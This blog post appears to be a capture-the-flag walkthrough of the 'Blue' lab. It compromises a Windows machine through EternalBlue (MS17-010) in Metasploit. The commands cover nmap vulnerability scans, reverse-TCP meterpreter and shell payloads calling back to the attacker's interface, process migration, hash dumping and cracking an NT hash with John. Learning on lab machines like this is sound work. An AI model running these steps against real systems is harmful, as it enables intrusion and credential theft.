 ```yaml
---
layout: post
title:  "Blue"
categories: blog
layout: post
---
```


Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

<!--more-->

## Task 1

Scan the machine for open ports and vulnerabilities using nmap.

```
nmap -sVC --script vuln  10.10.91.185
```

<img src="images/02.Blue/01.png">

<img src="images/02.Blue/02.png">

From the scan results we can see that the machine is vulnerable to ms17-010.

## Task 2

Let's open metasploit.

```
msfconsole -q
```

Search for the exploit ms17-010 and use exploit/windows/smb/ms17_010_eternalblue.

```
search ms17-010
```

```
use 0
```

<img src="images/02.Blue/03.png">

### Approach 1

The payload is set by default to windows/x64/meterpreter/reverse tcp.

See the available options and change the rport and lhost.

```
show options
```

```
set rhosts 10.10.91.185
```

```
set lhost tun0
```

<img src="images/02.Blue/04.png">

Run the exploit.

```
exploit
```

We now got a meterpreter shell. Let's quickly find out the information about the machine. We are logged in as nt authority\system. Now we have all privileges to the machine.

<img src="images/02.Blue/05.png">

<img src="images/02.Blue/06.png " height="400">

### Approach 2

Set the payload to windows/x64/shell/reverse_tcp.

```
set payload windows/x64/shell/reverse_tcp
```
See the available options and change the rport and lhost.

```
show options
```

```
set rhosts 10.10.91.185
```

```
set lhost tun0
```

<img src="images/02.Blue/07.png">

Run the exploit.

```
exploit
```
We now got a shell and we will elevate this shell to meterpreter shell. Background the shell by hitting Ctrl+Z.

<img src="images/02.Blue/08.png">

Use the module post/multi/manage/shell_to_meterpreter to get a meterpreter shell from the existing non-meterpreter shell.

Set lhost, session and run it.

```
set lhost tun0
```

```
set session 2
```

```
exploit
```

<img src="images/02.Blue/09.png">

<img src="images/02.Blue/10.png">

## Task 3

Let's check whether we are running as nt authority\system or not using getsystem.

```
getsystem
```

We are already running as SYSTEM and run ps to list all the processes.

```
ps
```

<img src="images/02.Blue/11.png">

We will now migrate to a different process that is running as NT AUTHORITY\SYSTEM.

```
migrate 704
```

<img src="images/02.Blue/12.png" height="100">

## Task 4

We can run hashdump in the meterpreter shell to get the hashes.

<img src="images/02.Blue/13.png">

Then we will crack the hash of user Jon with John The Ripper.

```
john hash.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

<img src="images/02.Blue/14.png">

## Task 5

Now let's find the flags. The first flag is located in the location C:\ .

<img src="images/02.Blue/15.png">

The second flag is located at the location where passwords are stored. The passwords are stored in SAM file. So, the second flag would be in the location C: \windows\system32\config.

<img src="images/02.Blue/16.png" height="100">

<img src="images/02.Blue/17.png" height="100">

The third flag is located in the Documents folder of the user Jon.

<img src="images/02.Blue/18.png" height="400">
